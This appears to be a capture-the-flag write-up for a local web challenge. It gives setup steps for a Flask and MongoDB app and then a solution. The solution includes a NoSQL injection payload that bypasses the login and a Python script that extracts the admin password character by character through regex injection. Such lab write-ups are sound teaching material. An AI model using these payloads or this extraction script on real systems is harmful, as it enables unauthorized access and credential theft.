

# Web01

## Setup

- Update the flag



- Build and run the image

```python
docker compose up -d --build
```

- Access via [`http://localhost:13337`](http://localhost:13337/)
    
    This port can always be changed from the `docker-compose.yml` 
    
    
    

## Solution

We are given the challenge url and challenge file in zip format


Visiting the url, we are presented with a login page.


We try signing up but that functionality seems broken.

On login in, trying with common credentials doesn’t seem to work. On the other trying an apostrophe `'`  as our username / password yields an error.


Looking at the application source, we determine that it is a flask application with a mongodb database. We also determine that it has 3 routes: login, home and signup.

Examining the login route, we see that it accepts the username and password and queries the database without sanitisation.


From this, we know that the attack path must be mongodb injection.

We try different payload and the one that works is `' || 1==1%00` 

On bypassing the login page, we are given a hint to retrieve the admin’s password as the flag


Next, we need to craft our payload to exfiltrate the admin’s password

We are able to do that using regex match

Since we know our flag starts with `flag{` , we can validate this with the payload below

```python
' || this.password.match(/^flag{.*/)%00
```


I created a python script to exfiltrate this.

```python
import requests
import string
import re

url='http://localhost:13337'
flag='flag{'

# Check if we have the whole flag
while flag[-1] != '}':
    for c in string.printable:
        data=dict()
        data['username'] = 'admin'
        # Escape our payload
        payload = re.escape(flag + c)
        data['password'] = "' || this.password.match(/^{}.*/)\0".format(payload)
        resp=requests.post(url, data=data)#, proxies={'http': 'http://127.0.0.1:8080'})
        if 'flag' in resp.text:
            flag += c
            print('Flag: {}'.format(flag))
```

